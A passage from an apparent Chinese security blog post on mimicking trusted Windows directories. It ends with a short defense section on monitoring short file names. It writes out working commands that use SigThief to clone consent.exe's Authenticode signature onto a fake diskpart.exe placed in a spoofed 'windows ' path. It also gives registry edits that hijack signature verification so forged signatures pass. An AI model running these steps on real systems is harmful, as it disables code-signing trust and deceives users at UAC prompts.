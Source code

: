 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-15/4-1.png)

**注：**

执行正常的diskpart.exe，UAC提示如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-15/4-2.png)

为了伪造成真正的UAC提示，可以使用PE文件的Authenticode签名伪造

参考资料： [《Authenticode签名伪造——PE文件的签名伪造与签名验证劫持》](https://3gstudent.github.io/3gstudent.github.io/Authenticode%E7%AD%BE%E5%90%8D%E4%BC%AA%E9%80%A0-PE%E6%96%87%E4%BB%B6%E7%9A%84%E7%AD%BE%E5%90%8D%E4%BC%AA%E9%80%A0%E4%B8%8E%E7%AD%BE%E5%90%8D%E9%AA%8C%E8%AF%81%E5%8A%AB%E6%8C%81/)

### 3、签名伪造

使用SigThief，地址如下：

https://github.com/secretsquirrel/SigThief

参数如下：

```
sigthief.py -i C:\Windows\System32\consent.exe -t c:\test\testuac.exe -o c:\test\new.exe 
copy c:\test\new.exe "\\?\c:\windows \system32\diskpart.exe" /y
```

### 4、绕过证书验证

添加注册表的命令如下：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\Windows\System32\ntdll.dll" /f
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "DbgUiContinue" /f
```

5、最终测试

再次执行：`"c:\windows \system32\diskpart.exe"`，UAC提示同真正的diskpart.exe一样，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-15/4-3.png)


## 0x05 防御建议
---

对于模拟可信目录的利用，前提是创建了伪造的目录，所以可选择对文件夹的短文件名进行监控

如果出现与系统目录相近的短文件名，可选择进行标记

查看短文件名的方法：  `dir /x` 

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-15/5-1.png)


## 0x06 小结
---

本文介绍了模拟可信目录的另外三种利用技巧，最后给出防御建议


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)




